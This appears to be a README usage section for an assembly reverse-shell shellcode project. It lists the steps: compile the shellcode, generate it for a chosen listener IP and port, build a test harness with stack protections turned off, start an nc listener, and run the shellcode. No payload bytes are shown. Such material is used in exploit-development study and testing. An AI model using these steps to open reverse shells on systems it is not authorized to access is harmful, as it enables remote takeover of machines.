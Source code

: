 # Usage

1. Assemble & link: `./compile.sh reverseshell`
2. Replace shellcode in `create_revshell_shellcode.py` with the shellcode output from the compile script.
3. Generate shellcode for desired port number using: `python3 create_revshell_shellcode.py -p <port number> <listener IP>`
4. Replace shellcode in `shellcode.c` with the shellcode output by the python script.
5. Compile shellcode.c: `gcc -fno-stack-protector -z execstack shellcode.c -o shellcode`
6. Start listener: `nc -nvlp <port number>`
7. Run shellcode to execute reverse shell: `./shellcode`
